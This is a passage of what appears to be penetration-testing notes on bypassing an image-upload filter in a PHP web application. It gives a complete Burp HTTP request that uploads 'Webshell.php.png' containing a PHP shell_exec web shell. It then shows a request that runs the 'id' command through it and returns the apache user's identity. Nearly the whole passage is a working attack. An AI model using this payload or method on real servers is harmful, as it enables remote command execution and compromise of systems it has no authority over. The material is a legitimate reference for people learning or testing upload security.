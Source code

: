 ```
	     + Include magic bytes for an accepted file
	    
           - Using Burp proxy send the following POST HTTP request:
             POST /application/image_upload.php HTTP/1.1
             Host: x.x.x.x
             User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
             Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
             Accept-Language: en-US,en;q=0.5
             Accept-Encoding: gzip, deflate
             Referer: http://x.x.x.x/application/upload.php
             Cookie: PHPSESSID=4e2jkta5ovnligfe6bchjgsop5
             Connection: close
             Upgrade-Insecure-Requests: 1
             Content-Type: multipart/form-data; boundary=---------------------------9005578534749094731954750866
             Content-Length: 409

             -----------------------------9005578534749094731954750866
             Content-Disposition: form-data; name="fileToUpload"; filename="Webshell.php.png"
             Content-Type: application/x-php

             <?php echo shell_exec($_GET['cmd'].' 2>&1'); ?>

             -----------------------------9005578534749094731954750866
             Content-Disposition: form-data; name="submit"

             Upload Image
             -----------------------------9005578534749094731954750866--

             HTTP response:
	     --------------
             HTTP/1.1 302 Found
             <snip>
             location: main_login.php
             Content-Length: 104
             Connection: close
             Content-Type: text/html; charset=UTF-8

             <html>
             <body>
             Uploading, please wait<br />The file has been uploaded to /uploads <br /></body>
             </html>

➤ Step 3. Browse your webshell and execute OS commands 
           - Using Burp proxy send the following POST HTTP request:
             GET /application/uploads/Webshell.php.png?cmd=id HTTP/1.1
             Host: x.x.x.x
             User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

             HTTP response:
	     --------------
             HTTP/1.1 200 OK
             <SNIP>
             Connection: close
             Content-Type: text/html; charset=UTF-8

             uid=48(apache) gid=48(apache) groups=48(apache)
```
